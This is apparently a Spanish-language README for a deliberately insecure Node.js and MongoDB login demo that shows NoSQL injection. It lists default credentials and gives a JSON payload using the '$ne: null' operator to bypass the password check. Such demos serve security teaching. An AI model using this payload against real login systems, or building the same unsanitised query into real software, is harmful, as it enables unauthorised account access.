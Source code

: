 # Login Inseguro con Inyección NoSQL

Creacion de un login con el cual se pueda hacer inyeccion sql

## Tecnologías

- Node.js  
- Express  
- MongoDB Atlas  
- Mongoose

## Crear un usuario

 
[http://localhost:3000/crear](http://localhost:3000/crear)  
Se creará el usuario:  
- **usuario**: `admin`  
- **contraseña**: `admin123`

## Intento de login normal

1. Ingresa desde la página principal `/`.
2. Usa las credenciales reales: `admin` / `admin123`.

## Realizar bypass por inyección NoSQL

Haz clic en el botón **Bypass Login** para enviar un payload

```json
{
  "username": "admin",
  "password": { "$ne": null }
}
```

Esto permite acceder sin conocer la contraseña real